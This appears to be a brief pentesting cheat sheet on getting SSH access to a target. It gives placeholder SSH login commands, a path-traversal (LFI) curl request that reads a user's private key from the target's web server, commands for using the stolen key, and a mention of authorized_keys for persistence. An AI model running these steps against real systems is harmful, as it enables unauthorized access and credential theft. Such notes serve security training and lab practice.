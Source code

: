 - `you can’t get initial access directly however we can login with user and password and private key`

### Login with username & password (if known):

```bash
ssh <USER>@<ip>
ssh -p 2222 <USER>@<ip>     # Custom SSH port
```
### Leak private key via LFI or web access:

```bash
curl http://<ip>/index.php?page=../../../../home/<USER>/.ssh/id_rsa
```
### Set permissions & connect with private key:

```bash
chmod 600 id_rsa
ssh -i id_rsa -p 2222 <USER>@<ip>
```
### Look for authorized keys (for persistence or recon):

```bash
~/.ssh/authorized_keys
```

